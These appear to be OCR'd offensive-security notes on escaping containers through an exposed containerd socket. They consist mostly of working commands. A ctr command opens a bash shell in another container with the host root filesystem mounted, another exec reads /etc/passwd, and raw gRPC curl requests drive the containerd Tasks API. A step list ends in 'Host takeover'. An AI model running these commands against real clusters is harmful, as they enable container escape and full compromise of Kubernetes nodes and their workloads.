 
Running things in another container from within a container (with name a1c07c5799a7bae37d9322075bda1d709c60fa129d04522bb452dfcc610b2f24) and host root fs mounted at /host in container

mkdir /host/tmp/offsec
ln -s /host/tmp/offsec /tmp/offsec
ctr --address /host/run/containerd/containerd.sock -n k8s.io task exec -t --exec-id 1 --fifo-dir /tmp/offsec  a1c07c5799a7bae37d9322075bda1d709c60fa129d04522bb452dfcc610b2f24  /bin/bash


Fifo dir must be supplied as from the perspective of the host node, but the file also must be accessible from the executing container



sudo ctr --address /run/containerd/containerd.sock -n k8s.io task exec -t --exec-id 1 992f72e87e8f3d31b307162f29f5ec38be6018560529e750e0321fb3a6a03f95 cat /etc/passwd




/containerd.services.tasks.v1.Tasks/Exec


/containerd.services.tasks.v1.Tasks/Start




sudo curl -v -s --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST  -H "content-type: application/grpc"  -H "user-agent: grpc-go/1.59.0"  -H "te: trailers"  -H "containerd-namespace: k8s.io" http://localhost/containerd.services.tasks.v1.Tasks/Start --data-binary @/tmp/start.bin --output /tmp/startresponse.bin




sudo curl -v -s --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST  -H "content-type: application/grpc"  -H "user-agent: grpc-go/1.59.0"  -H "te: trailers"  -H "containerd-namespace: k8s.io" http://localhost/containerd.services.tasks.v1.Tasks/DeleteProcess --data-binary @/tmp/deleteprocess.bin --output /tmp/deleteprocessresponse.bin







https://0xn3va.gitbook.io/cheat-sheets/container/escaping/exposed-docker-socket


List namespaces
List containers
Create a container
Start a container
Code execution in a container
Host takeover (host root mount in a new container you run)


With http2 capable curl


Version

echo -ne "\x00\x00\x00\x00\x00" | sudo curl -v -s --http2-prior-knowledge --unix-socket /run/containerd/containerd.sock -X POST  -H "content-type: application/grpc"  -H "user-agent: grpcurl/v1.9.2 grpc-go/1.61.0"  -H "te: trailers"  -H "grpc-accept-encoding: gzip" http://localhost/containerd.services.version.v1.Version/Version --data-binary @- --output /tmp/122
